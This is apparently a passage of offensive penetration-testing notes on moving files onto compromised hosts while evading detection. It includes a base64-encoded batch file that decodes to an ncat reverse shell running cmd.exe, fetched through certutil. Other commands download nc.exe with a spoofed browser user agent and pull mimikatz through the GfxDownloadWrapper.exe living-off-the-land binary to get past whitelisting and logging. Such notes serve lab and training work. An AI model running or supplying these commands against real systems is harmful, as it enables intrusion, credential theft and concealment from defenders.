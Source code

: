 - Server

```powershell
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

### Evasion

#### base64

(See the section above about it)  

In some cases, we may not be able to transfer a file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:  

- `base64 shell -w 0`

Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:  

- `echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ..lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`

In a windows target we can do this:  

```cmd
echo QGVjaG8gb2ZmCkM6XHRlbXBcbmNhdC5leGUgMTAuMTAuMTQuMiA0NDMgLWUgY21kLmV4ZQo= > data.b64
certutil -decode data.b64 evil.bat
```


#### Changing UserAgent

- `[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl` list out user agent in Powershell
- `Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"` Request with Chrome User Agent from our target machine
- `nc -lvnp 80` with our nc listener we then get our file in our attack machine

#### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

- Transferring File with GfxDownloadWrapper.exe `GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"`
